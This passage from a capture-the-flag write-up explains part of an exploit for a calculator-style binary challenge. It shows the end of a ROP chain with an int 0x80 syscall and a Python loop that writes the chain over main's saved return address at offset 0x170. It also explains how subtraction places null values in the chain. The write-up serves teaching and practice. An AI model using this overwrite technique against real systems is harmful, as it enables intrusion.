 ```python
	pop_edx, 0,
	int_80_ret
	]
```

Because we want to input number, not any byte so we won't pack them. That's good for us now! Let's move on!

### Stage 2: Input payload

Now, we just simply input it from bottom to up with the index plus `0x170`, that's the distance between `pool` 
and saved eip of main:

```python
for i in range(len(payload_list)-1, -1, -1):
	payload = f'+{0x170+i}+{payload_list[i]}'.encode()
	p.sendline(payload)
```

Let's attach with gdb to check if it is correct or not:

![check-payload-in-gdb.png](images/check-payload-in-gdb.png)

Hm I notice there are no null byte in our payload inputted. That's because we are not allow to input number `0` in the expression. So there are no way to input `0`. But we can trigger that to create 4-byte null by making a subtraction. For example, when we input `+368+512`, the `pool[368]` will contain `512`, and the operator `+` will make `pool[367] = pool[367] + pool[368]` so `pool[367]` now containing `512`. And we want to make `pool[367]` to null again, we just need to input `+368-512` and `pool[368]` will contain `512` while `pool[367]` is null now.

And then the value of `pool[367]` will be printed out
